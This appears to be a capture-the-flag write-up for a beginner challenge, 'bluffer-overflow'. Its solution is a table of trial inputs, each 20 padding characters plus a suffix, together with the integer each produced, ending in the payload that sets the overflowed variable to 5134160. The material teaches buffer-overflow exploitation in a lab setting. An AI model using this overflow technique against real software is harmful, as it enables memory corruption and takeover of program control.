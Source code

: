 # bluffer-overflow

Maybe it's your first time pwning? Can you overwrite the variable?

## Solution

char buff[20];
int buff2;

else if (buff2 == 5134160)

AAAAAAAAAAAAAAAAAAAA5134160           (875770165)
AAAAAAAAAAAAAAAAAAAA005134160         (858862896)
AAAAAAAAAAAAAAAAAAAA000005134160      (808464432)
AAAAAAAAAAAAAAAAAAAA0000051341600     (808464432)

int -> 2147483647

AAAAAAAAAAAAAAAAAAAA-6  (13869)
AAAAAAAAAAAAAAAAAAAA-68 (3683885)
AAAAAAAAAAAAAAAAAAAA-99 (3750189)
AAAAAAAAAAAAAAAAAAAA0-99 (960048432)

XXXXXXXXXXXXXXXXXXXX2147483647      926167346
XXXXXXXXXXXXXXXXXXXX7463847412      859190327

XXXXXXXXXXXXXXXXXXXX0               48
XXXXXXXXXXXXXXXXXXXX1               49

XXXXXXXXXXXXXXXXXXXX10              12337
XXXXXXXXXXXXXXXXXXXX20              12338
XXXXXXXXXXXXXXXXXXXX30              12339

XXXXXXXXXXXXXXXXXXXX100             3158065
XXXXXXXXXXXXXXXXXXXX500             3158069
XXXXXXXXXXXXXXXXXXXX510             3158325
XXXXXXXXXXXXXXXXXXXX511             3223861
XXXXXXXXXXXXXXXXXXXX555             3487029
XXXXXXXXXXXXXXXXXXXX559             3749173
XXXXXXXXXXXXXXXXXXXX900             3158073
XXXXXXXXXXXXXXXXXXXX999             3750201
XXXXXXXXXXXXXXXXXXXX99A             4274489
XXXXXXXXXXXXXXXXXXXX99F             4602169
XXXXXXXXXXXXXXXXXXXX9FF             4605497
XXXXXXXXXXXXXXXXXXXX9FG             4671033
XXXXXXXXXXXXXXXXXXXX9FN             5129785

XXXXXXXXXXXXXXXXXXXX9NN             5131833
XXXXXXXXXXXXXXXXXXXX9PN             5132345
XXXXXXXXXXXXXXXXXXXX9UN             5133625
XXXXXXXXXXXXXXXXXXXX9VN             5133881
XXXXXXXXXXXXXXXXXXXX9WN             5134137
XXXXXXXXXXXXXXXXXXXXPWN

5134160

```sh
readelf -s a.out | grep buff
```
